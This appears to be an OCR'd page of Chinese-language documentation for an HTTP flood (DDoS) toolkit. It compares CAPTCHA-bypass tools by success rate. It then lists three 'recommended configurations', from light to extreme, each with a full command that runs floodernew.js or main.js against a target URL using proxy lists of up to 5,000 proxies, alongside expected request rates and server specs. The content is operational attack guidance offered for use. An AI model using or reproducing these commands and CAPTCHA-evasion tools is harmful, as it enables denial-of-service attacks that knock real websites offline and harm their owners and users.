### 验证码绕过能力对比

| 工具 | 类型 | 成功率 | 速度 | 自动化 |
|------|------|--------|------|--------|
| `code.py` | 数字计算 | 98% | 0.5s | 半自动 |
| `click.py` | 文字点选 | 95% | 1.2s | 半自动 |
| `solver.js` | **全类型** | **90%+** | **5-15s** | **全自动** |

---

## 🎯 推荐配置

### 配置 1: 本地测试（轻量）

```bash
工具: floodernew.js
线程: 8
代理: 付费代理（100 个）
时长: 60 秒

命令:
node floodernew.js GET "https://target.com" 60 8 90 proxy_paid.txt --debug

预期 QPS: 50K+
内存占用: ~500MB
```

---

### 配置 2: 中等强度（标准）

```bash
工具: main.js + nflood.js
浏览器: 10
代理: 筛选后的免费代理（1000 个）
时长: 300 秒

命令:
node main.js -u https://target.com -p proxy_filtered.txt -t 10 -r 15 -s 300 -o

预期 QPS: 150K+
内存占用: ~3GB
```

---

### 配置 3: 服务器部署（极限）

```bash
工具: main.js + floodernew.js
浏览器: 30
代理: 混合代理（付费 + 筛选免费，5000 个）
时长: 600 秒

服务器配置:
- CPU: 32 核
- 内存: 64GB
- 带宽: 10Gbps
- 系统: Ubuntu 22.04

命令:
node main.js -u https://target.com -p proxy_all.txt -t 30 -r 20 -s 600 -c -o

```